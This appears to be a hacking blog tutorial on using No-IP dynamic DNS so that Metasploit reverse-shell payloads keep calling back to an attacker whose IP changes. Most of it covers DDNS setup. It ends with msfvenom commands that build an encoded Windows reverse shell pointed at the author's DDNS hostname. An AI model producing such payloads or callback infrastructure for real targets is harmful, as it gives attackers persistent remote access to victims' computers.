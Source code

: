 ```yaml
---
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
title: Use DDNS to Deal With Your Dynamic Public IP
tags:
  - Hacking
  - DDNS
  - Metasploit
---
```


Many of us have an internet connection with a dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I’m going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I’m getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that’s visible to machines outside your local network. For example, if two or more machines are connected through a router—maybe through Wi-Fi—to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router’s public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what’s your public IP by googling “What is my IP”, Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as `android/meterpreter/reverse_tcp`, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won’t be able to use a payload for a long time because after some time the IP stored inside it won’t point to your machine anymore. That’s a problem — a major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to The Rescue

We all know what DNS or Domain Naming System is, it’s the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS → Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is `host_name.domain_name`. For example, I chose the default domain name—ddns.com—and the hostname I entered is _skulltech_. So the address I got is “skulltech.ddns.com”. Refer to the screenshots below for reference.

![step-1](/images/posts/step-11.png)
![step-2](/images/posts/step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you’ll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It’s a tar.gz archive, extract it using the following command —
```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname—or hostnames—that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run `noip2` in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS Hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won’t be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_—if you don’t check out [this tutorial](/articles/embed-metasploit-payload-in-apk-easily/)—I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it’s _192.168.1.101_.

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to _msfvenom_ instead of your IP. So now the command will be —

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
